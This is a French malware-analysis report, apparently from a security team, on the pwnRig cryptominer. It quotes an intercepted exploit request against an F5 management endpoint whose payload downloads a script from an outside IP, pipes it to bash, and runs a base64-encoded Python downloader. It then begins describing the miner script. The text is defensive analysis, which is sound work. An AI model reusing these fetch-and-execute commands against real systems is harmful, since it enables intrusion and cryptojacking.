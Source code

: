 # Reverse CryptoMiner pwnRig
__Antoine POURCEL - AISI - 05 octobre 2021__

![logo](../img/logo_inverted.png)
## Découverte de l'attaque

La requête suivante à été interceptée par un répartiteur de charge placé sur l'infrastructure cliente : 
```
POST /mgmt/tm/util/bash HTTP/1.1\r
Host: <redacted>\r
Connection: keep-alive\r
Accept-Encoding: gzip, deflate\r
Accept: */*\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) 
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36\r
Content-Type: application/json\r
Authorization: Basic YWRtaW46QVNhc1M\=\r
X-F5-Auth-Token: \r
Content-Length: 353\r\n\r


{"utilCmdArgs": "-c '(curl -s hxxp://209.141.40.190/xms || wget -q -O - hxxp://209.141.40.190/xms || lwp-download hxxp://209.141.40.190/xms /tmp/xms) | bash -sh; bash /tmp/xms; rm -rf /tmp/xms; echo cHl0aG9uIC1jICdpbXBvcnQgdXJsbGliO2V4ZWModXJsbGliLnVybG9wZW4oImh0dHA6Ly8yMDkuMTQxLjQwLjE5MC9kLnB5IikucmVhZCgpKSc\= | base64 -d | bash -'", "command": "run"}#015
```
On y remarque une instruction destinée à être executée par un ordinateur cible. Il y est demandé le téléchargement d'un fichier `xms` par de multiples moyens, puis son execution et enfin sa suppression. Une chaine de caractère encodée est également envoyé pour y être décodée et exécutée par la machine ciblé.

## Fichier XMS
Nous téléchargeons le fichier en contactant l'URL spécifiée dans la requête via une proxychains configurée pour passer par le réseau Tor.
 Les caractéristiques du fichier sont les suivantes : 
 
 |*Nom*|*Taille*|*MD5*|*SHA1*|
 |-----|----|--------|------|
 |xms|12K|7e1ae8c6705ab8de4ed7cf36701a18c6|800c962a8d57669cd27d68b4205a997c2d86b7c6|

Le fichier est un script Bash dont les opérations sont les suivantes : 
  * Suppression ou désactivation de miner possiblement déjà utilisés :
    * Commence par libérer des ports possiblement ouverts.Les ports concernés sont les ports suivants :
      * 3333
      * 4444
      * 5555
      * 7777
      * 14444
      * 5790
      * 45700
      * 2222
      * 9999
      * 20580
      * 13531